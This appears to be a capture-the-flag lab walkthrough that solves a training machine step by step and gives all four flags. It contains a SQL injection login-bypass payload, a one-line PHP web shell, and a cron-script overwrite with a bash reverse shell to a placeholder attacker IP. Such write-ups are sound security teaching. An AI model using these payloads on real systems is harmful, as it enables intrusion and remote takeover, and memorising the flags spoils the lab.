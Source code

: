 ## Medium Lab - Complete Walkthrough

This document outlines the intended solution path for the Medium Lab.

### 1. Enumeration & Flag 1

* **Action:** Browse to the web server's IP. You will see a login page. A common enumeration step is to check for a `robots.txt` file.
* **Result:** Navigating to `http://<TARGET_IP>/robots.txt` reveals a disallowed entry: `/users.xml`.
* **Action:** Navigate to `http://<TARGET_IP>/users.xml`.
* **Result:** This file contains a list of potential usernames, including `admin426`. The first flag is also located in the webroot.
* **Flag 1:** `OmahTIAcademy{R0bot5_Fl@g}` (Found at `http://<TARGET_IP>/flag1.txt`)

### 2. SQL Injection & Flag 2

* **Action:** Use the discovered username (`admin426`) with a classic SQL injection payload to bypass the login.
    * **Username:** `admin426' OR 1=1#`
    * **Password:** (leave blank)
* **Result:** You are successfully logged in and redirected to the profile page.
* **Flag 2:** The page displays the second flag: `OmahTIAcademy{SQL_L0g1n_Byp@ss}`.

### 3. File Upload & Flag 3

* **Action:** The profile page has a file upload feature. Upload a simple PHP web shell.
    ```php
    <?php system($_REQUEST['cmd']); ?>
    ```
* **Result:** The file is uploaded successfully. Access it via the URL (`http://<TARGET_IP>/uploads/shell.php?cmd=ls`) to get command execution.
* **Action:** Explore the `/uploads` directory with your new shell.
    ```
    ls -la /var/www/html/uploads
    ```
* **Result:** You will find `admin_password.txt` and `flag3.txt`.
* **Flag 3:** `OmahTIAcademy{F1l3_Uplo@d_@ttacks}`
* **Credentials:** Reading `admin_password.txt` reveals the SSH password for `admin426`.

### 4. Privilege Escalation & Flag 4

* **Action:** Use the discovered password to SSH into the machine as `admin426`.
* **Action:** Enumerate for privilege escalation vectors. `linpeas.sh` will highlight a world-writable cron job script at `/usr/local/bin/backup.sh`.
* **Action:** Overwrite the script with a reverse shell payload and start a listener on your attacker machine.
    ```bash
    # On attacker machine
    nc -lvnp 4444

    # On victim machine (as admin426)
    echo 'bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"' > /usr/local/bin/backup.sh
    ```
* **Result:** Within one minute, you will receive a root shell on your listener.
* **Flag 4:** `cat /root/flag4.txt`
